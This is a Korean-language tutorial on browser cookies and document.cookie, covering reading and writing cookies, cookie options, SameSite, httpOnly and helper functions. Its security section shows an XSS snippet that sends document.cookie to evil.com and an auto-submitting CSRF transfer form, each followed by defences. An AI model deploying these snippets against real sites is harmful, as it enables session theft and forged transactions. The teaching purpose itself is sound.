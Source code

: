 
# 🍪 쿠키와 `document.cookie` 완벽 가이드

## 📌 쿠키란?
- **브라우저에 저장되는 작은 문자열** (RFC 6265 표준)
- **서버가 Set-Cookie 헤더로 생성** → 브라우저에 저장 → 서버 재접속 시 Cookie 헤더로 자동 전송

**주요 용도:** 사용자 식별 (세션 관리, 로그인 상태 유지)

---

## 📌 쿠키 읽기

```javascript
alert(document.cookie); // 출력 예: user=John; theme=dark
```

- `document.cookie`는 `name=value;` 형태 문자열 반환
- 개별 쿠키 접근: split/정규식 활용 or 헬퍼 함수 사용

```javascript
function getCookie(name) {
  let matches = document.cookie.match(new RegExp(
    "(?:^|; )" + name.replace(/([\.$?*|{}()\[\]\\\/\+^])/g, '\$1') + "=([^;]*)"
  ));
  return matches ? decodeURIComponent(matches[1]) : undefined;
}
```

---

## 📌 쿠키 쓰기

```javascript
document.cookie = "user=John";
document.cookie = encodeURIComponent("my name") + "=" + encodeURIComponent("John Smith");
```

- 다른 쿠키는 유지, 해당 이름만 갱신
- 이름/값은 `encodeURIComponent`로 인코딩 필요

---

## 📌 쿠키 옵션

```javascript
document.cookie = "user=John; path=/; domain=site.com; expires=Tue, 19 Jan 2038 03:14:07 GMT; max-age=3600; secure; samesite=Strict";
```

| 옵션 | 설명 |
| ---- | ---- |
| **path** | 쿠키가 적용될 URL 경로 (기본: 현재 경로) |
| **domain** | 접근 가능한 도메인 (기본: 현재 도메인) |
| **expires** | 만료 일시 (GMT 형식) |
| **max-age** | 만료 기간 (초 단위) |
| **secure** | HTTPS에서만 전송 |
| **samesite** | Cross-Site 요청 시 쿠키 전송 제한 (Strict/Lax) |

---


## 📌 XSS (Cross-Site Scripting) 공격

### 🚨 동작 원리
- 악의적인 JS 코드가 삽입되어 사용자의 쿠키(`document.cookie`)를 탈취

```html
<script>
  fetch("https://evil.com/steal?cookie=" + document.cookie);
</script>
```

### 🛡️ 방어 방법
- **httpOnly 쿠키 사용** → JS에서 쿠키 접근 불가
- Content Security Policy (CSP) 설정
- 사용자 입력 데이터 철저히 필터링 (`<script>` 같은 태그 제거)
- 쿠키는 사용자 식별용, 민감한 정보는 절대 저장 X

---

## 📌 XSRF (Cross-Site Request Forgery) 공격

### 🚨 동작 원리
- 사용자가 **로그인 상태**일 때, 악성 사이트가 `POST` 요청 전송 → 쿠키 자동 포함 → 피해 발생

```html
<form action="https://bank.com/transfer" method="POST">
  <input type="hidden" name="to" value="hacker">
  <input type="hidden" name="amount" value="1000000">
  <input type="submit">
</form>
<script>document.forms[0].submit();</script>
```

### 🛡️ 방어 방법
- `samesite` 옵션 (`Strict` or `Lax`) → 외부 요청 시 쿠키 전송 제한
- CSRF Token 사용 (서버가 발급, 클라이언트는 요청마다 포함)
- Referer/Origin 체크 (서버단에서 요청 출처 확인)

---


## 📌 samesite 옵션

| 값 | 특징 |
| --- | ---- |
| `Strict` | 외부 사이트 요청엔 쿠키 전송 안 함 |
| `Lax` | 안전한 메서드(GET) + 최상위 탐색만 허용 |
| (미지정) | 기본은 Lax, 브라우저마다 다를 수 있음 |

---

## 📌 쿠키 삭제

```javascript
document.cookie = "user=; max-age=0";
```

or 헬퍼 함수:

```javascript
function deleteCookie(name) {
  setCookie(name, "", {'max-age': -1});
}
```

---

## 📌 httpOnly (서버 설정)

- JS에서 쿠키 접근 불가 (`document.cookie`로 읽기 X)
- XSS 공격 방어용

---

## 📌 서드 파티 쿠키

- 다른 도메인에서 설정한 쿠키
- 추적/광고 목적으로 사용 → 일부 브라우저 기본 차단

---

## 📌 GDPR

- 쿠키 사용 시 **사용자 동의 필요 (특히 추적/식별 쿠키)**

---

## 📌 쿠키 관련 헬퍼 함수

```javascript
function setCookie(name, value, options = {}) {
  options = { path: '/', ...options };
  if (options.expires instanceof Date) options.expires = options.expires.toUTCString();
  let updatedCookie = encodeURIComponent(name) + "=" + encodeURIComponent(value);
  for (let optionKey in options) {
    updatedCookie += "; " + optionKey;
    let optionValue = options[optionKey];
    if (optionValue !== true) updatedCookie += "=" + optionValue;
  }
  document.cookie = updatedCookie;
}
```

---

## ✅ 요약

- `document.cookie` → 쿠키 읽기/쓰기
- 이름/값 인코딩 필요 (`encodeURIComponent`)
- 옵션: `path`, `domain`, `expires`, `max-age`, `secure`, `samesite`
- 제한: 4KB, 약 20개
- XSRF 방지: `samesite` 옵션
- XSS 방지: `httpOnly` (서버 설정)
